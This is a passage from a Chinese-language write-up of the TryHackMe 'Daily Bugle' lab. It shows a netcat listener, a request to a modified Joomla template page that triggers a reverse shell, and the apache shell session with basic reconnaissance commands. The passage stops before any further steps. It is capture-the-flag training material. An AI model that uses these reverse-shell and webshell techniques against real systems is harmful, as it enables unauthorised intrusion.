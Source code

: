 + 监听：

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/Daily Bugle]
    └─$ nc -nlvp 1234                                                            
    listening on [any] 1234 ...
    ```
+ 访问``http://ip/templates/beez3/index.php``:

    ![Alt text](/style/image/image-347.png)

+ 获得shell:

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/Daily Bugle]
    └─$ nc -nlvp 1234                                                            
    listening on [any] 1234 ...
    connect to [10.11.61.123] from (UNKNOWN) [10.10.223.218] 58242
    Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    10:43:05 up  3:18,  0 users,  load average: 0.00, 0.01, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=48(apache) gid=48(apache) groups=48(apache)
    sh: no job control in this shell
    sh-4.2$
    ```
+ 获取信息：

    + 获取用户信息：

    ```
    sh-4.2$ whoami
    whoami
    apache
    sh-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache)
    sh-4.2$ dir
    dir
    bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
    boot  etc  lib	 media	opt  root  sbin  sys  usr
    sh-4.2$ cd /home
    cd /home
    sh-4.2$ dir
    dir
    jjameson
    cd jjameson
    sh: cd: jjameson: Permission denied
    ```
    + 查看配置文件：
